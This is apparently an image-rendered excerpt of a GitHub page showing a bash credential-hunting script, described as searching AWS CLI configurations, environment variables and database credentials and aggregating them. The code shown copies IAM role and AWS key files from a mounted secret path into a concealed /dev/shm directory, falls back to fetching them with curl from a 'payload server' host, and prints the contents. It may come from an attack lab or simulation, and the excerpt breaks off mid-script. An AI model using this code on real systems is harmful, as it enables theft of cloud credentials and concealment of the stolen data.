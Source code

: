 this function hunts for credentials. it looks for AWS CLI configurations and searches through the environment variables for sensitive information. it also collects database credentials! finally, it aggregates all the found credentials into a single file.

```bash
# Modified AWS metadata access to use mounted credentials or payload server...
log "$CYAN" "AWS metadata access - using mounted credentials or payload server..."
mkdir -p /dev/shm/.../...HIDDEN/

# Get credential location from environment variable if set
AWS_CRED_PATH=${AWS_CREDENTIAL_PATH:-"/etc/bsssq-secrets/aws"}
log "$BLUE" "Looking for credentials in: $AWS_CRED_PATH"

# Use the mounted credential files instead of creating them
if [ -f "$AWS_CRED_PATH/iam-role.json" ]; then
  log "$GREEN" "Using mounted IAM role data from Kubernetes secret"
  cp "$AWS_CRED_PATH/iam-role.json" /dev/shm/.../...HIDDEN.../iam.role
  if [ $? -ne 0 ]; then
    log "$RED" "Failed to copy IAM role data: permission denied or other error"
  fi
else
  log "$YELLOW" "No mounted IAM role credentials found at $AWS_CRED_PATH/iam-role.json"
  
  # Try to fetch from payload server
  log "$BLUE" "Attempting to fetch IAM role data from payload server..."
  curl -s --max-time 5 http://payload-server.default.svc.cluster.local:8080/iam-role -o /dev/shm/.../...HIDDEN.../iam.role
  
  if [ ! -s /dev/shm/.../...HIDDEN.../iam.role ]; then
    log "$RED" "No IAM role data available from any source"
    # Create empty file to avoid errors in subsequent steps
    echo "{}" > /dev/shm/.../...HIDDEN.../iam.role
  fi
fi

if [ -f /dev/shm/.../...HIDDEN.../iam.role ]; then
  filesize=$(wc -c < /dev/shm/.../...HIDDEN.../iam.role)
  if [ $filesize -gt 2 ]; then
    log "$GREEN" "IAM role data retrieved ($filesize bytes):"
    cat /dev/shm/.../...HIDDEN.../iam.role
    iam_role_name=$(grep "RoleName" /dev/shm/.../...HIDDEN.../iam.role | cut -d'"' -f4)
    if [ -n "$iam_role_name" ]; then
      log "$BLUE" "Extracted IAM role name: $iam_role_name"
    else
      log "$YELLOW" "Could not extract IAM role name from data"
    fi
  else
    log "$YELLOW" "IAM role file exists but appears to be empty or malformed"
  fi
fi
rm -f /dev/shm/.../...HIDDEN.../iam.role

# Similar approach for AWS keys
if [ -f "$AWS_CRED_PATH/aws-keys.json" ]; then
  log "$GREEN" "Using mounted AWS key data from Kubernetes secret"
  cp "$AWS_CRED_PATH/aws-keys.json" /dev/shm/.../...HIDDEN.../aws.tmp.key
  if [ $? -ne 0 ]; then
    log "$RED" "Failed to copy AWS key data: permission denied or other error"
  fi
else
  log "$YELLOW" "No mounted AWS keys found at $AWS_CRED_PATH/aws-keys.json"
  
  # Try to fetch from payload server
  log "$BLUE" "Attempting to fetch AWS keys from payload server..."
```